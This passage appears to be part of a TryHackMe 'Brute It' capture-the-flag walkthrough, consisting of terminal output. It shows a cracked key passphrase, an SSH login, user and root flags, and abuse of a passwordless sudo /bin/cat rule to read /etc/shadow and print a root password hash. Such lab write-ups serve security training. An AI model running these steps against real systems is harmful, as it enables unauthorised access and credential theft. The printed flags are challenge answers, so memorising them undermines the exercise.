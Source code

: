 ```
1g 0:00:00:06 DONE (2020-11-14 21:07) 0.1466g/s 2102Kp/s 2102Kc/s 2102KC/sa6_123..*7¡Vamos!
Session completed
```

```
bibo318@parrot:~/CTFs/tryhackme/Brute It$ ssh -i id_rsa john@10.10.16.131
Enter passphrase for key 'id_rsa':
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Nov 14 20:08:33 UTC 2020

  System load:  0.16               Processes:           104
  Usage of /:   25.7% of 19.56GB   Users logged in:     0
  Memory usage: 20%                IP address for eth0: 10.10.16.131
  Swap usage:   0%


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
john@bruteit:~$
```

```
john@bruteit:~$ cat user.txt
THM{V0N318*****a_password_is_not_a_barrier}
```

```
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
john@bruteit:~$ sudo /bin/cat /root/root.txt
THM{V0N318*****pr1v1l3g3_3sc4l4t10n}
```

```
john@bruteit:~$ sudo /bin/cat /etc/shadow
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
```